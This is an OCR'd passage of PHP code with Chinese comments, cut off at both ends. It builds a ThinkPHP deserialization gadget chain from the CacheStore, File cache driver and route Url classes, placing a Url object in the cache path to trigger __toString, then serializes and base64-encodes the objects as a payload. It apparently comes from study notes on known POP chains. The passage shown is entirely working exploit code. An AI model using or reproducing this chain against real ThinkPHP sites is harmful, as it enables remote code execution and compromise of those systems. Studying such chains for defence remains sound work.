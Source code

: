 ```php
            $this->key = 'sp4c1ous'; //测试了一下，这里这个construct中的属性是啥都无所谓，但是必须要有
        }
    }
    echo base64_encode(serialize(new CacheStore())); //这里的__destruct入口是这个子类的父类抽象类，直接echo就行
}

namespace think\cache {

    use think\route\Url;

    abstract class Driver
    {
        protected $options = [
            'expire' => 0,
            'cache_subdir' => true,
            'prefix' => '',
            'path' => '',
            'hash_type' => 'md5',
            'data_compress' => false,
            'tag_prefix' => 'tag:',
            'serialize' => ['1'],
        ];
        public function __construct()
        {
            $this->options = [
                'expire' => 0,
                'cache_subdir' => true,
                'prefix' => '',
                'path' => new Url(), //去调用上一条链子的__toString
                'hash_type' => 'md5',
                'data_compress' => false,
                'tag_prefix' => 'tag:',
                'serialize' => ['1'],
            ];
        }
    }
}

//还是因为不能实例化抽象类，要找一个它的子类来实例化
namespace think\cache\driver {

    use think\cache\Driver;

    class File extends Driver
    {
    }
}

//下面和POP1里的第二处的后面是完全一样的
namespace think\route {

    use think\Middleware;
    use think\Validate;

    class Url
    {
        protected $url;
        protected $domain;
        protected $app;
        protected $route;
        public function __construct()
        {
            $this->url = 'a:';
```